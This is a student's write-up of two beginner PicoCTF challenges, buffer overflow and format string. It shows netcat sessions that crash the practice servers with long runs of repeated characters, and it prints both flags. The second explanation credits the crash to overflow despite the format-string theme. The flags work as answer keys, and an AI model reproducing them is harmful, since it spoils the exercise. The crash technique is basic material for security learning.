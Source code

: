 # 1. buffer overflow 0

Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Additional details will be available after launching your challenge instance.

## Solution:

![alt text](image.png)
As the challenge suggested, I opened the source file to see that the first function was something known as "sigsegv_handler" and it printed the flag upon a segmentation error.

```bash
snmvarun@DESKTOP-16J7ALL:/mnt/d/Cryptonite/PicoCTF$ nc saturn.picoctf.net 49249
Input: VVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVV
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
So then I ran the nc command given in the challenge and spammed it with characters and overflowed it to get the flag 

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## Concepts learnt:

- What is buffer overflow
- How to make segmentation error by overflowing.

## Notes:

- nc command is netcat command for reading from and writing to network connections using TCP or UDP.

## Resources:

- [Buffer Overflow](https://youtu.be/AD-iXWANggo?si=qMPe0lBi1SivMyQo)

# 1. Format String 0

Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Additional details will be available after launching your challenge instance.

## Solution:
![alt text](image-1.png)
Similar to the first challenge, there is another sigsegv function that requires overflow to print the flag

```bash
snmvarun@DESKTOP-16J7ALL:/mnt/d/Cryptonite/PicoCTF$ nc mimas.picoctf.net 64212
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaa
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```
I spam it with characters to overflow the input and get the flag.

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```

## Concepts learnt:

- Better understanding in sigsegv segmentation fault.

## Notes
- None 

## Resources:

- None

